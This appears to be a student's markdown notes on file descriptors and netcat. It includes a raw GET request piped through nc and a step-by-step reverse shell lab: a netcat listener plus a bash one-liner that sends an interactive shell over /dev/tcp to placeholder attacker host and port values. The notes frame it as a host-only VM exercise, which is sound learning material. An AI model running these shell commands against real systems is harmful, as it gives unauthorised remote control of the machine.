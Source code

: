 # File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Send a basic GET request to the application on server port

        cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &